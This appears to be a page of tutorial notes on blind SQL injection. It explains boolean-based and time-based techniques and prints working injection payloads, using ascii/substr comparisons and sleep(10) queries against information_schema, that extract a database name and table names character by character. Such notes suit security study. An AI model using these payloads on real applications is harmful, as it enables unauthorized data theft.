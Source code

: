 # Blind sql starts here

These are called Blind sql because there won't be any error messages like we saw in error based sql, So it's a bit harder


Blind injections are classified into 2 -> 1) Boolean based blind  2) Time based blind


Boolean Based Blind Injection

So lets start with this query  select ascii(substr(database(),1,1)) This would return the ascii value of the first char in the 
name of the database.

So we can do a bunch of trial and error to track down each and every character like this, let database() returns  "a" as the first
char.

ascii(substr((select database()),1,1)) < 100, would return 1 that is true
ascii(substr((select database()),1,1)) < 97 , would return 0 that is false

So the value must be lying between 97 and 99, we'll try every value until we evaluate to true like this

ascii(substr((select database()),1,1)) = 97 , would return 1 that is true

Hence we found out the first character, similarily we can find all other chars

So our payload to pass to the frontend will look something like this

' AND (ascii(substr((select database()),1,1)) = 97) --+

Thus Blind Based Boolean injection.



Time Based Blind Injection

So the difference here is that unlike boolean based injection the data will be visible always even if we give some random value to 
id, like id = 1000, would still render a valid page with virtually no difference so we can't use appearance or dissappearance of 
text as we have done in boolean based injection, So here we use time instead, The core idea is similar to boolean but we're using 
time infer whether An application is vulnerable or not or to dump the whole database.

Lets take a query

select if(ascii(substr((select database()),1,1))>97,sleep(10),null);

therefore if the ascii value of the first letter of the database name is greater than 97 the database will sleep for 10 seconds,
otherwise it'll do nothing.

Now we can leverage this to dump the entire database like this 

select if((select substr(table_name,1,1) from information_schema.tables where table_schema=database() limit 0,1)='e',sleep(10),null)

So the query to use on our frontend will look like this

' AND (select if((select substr(table_name,1,1) from information_schema.tables where table_schema=database() limit 0,1)='e',sleep(10),null)
) --+

Hence this is time based sql injection

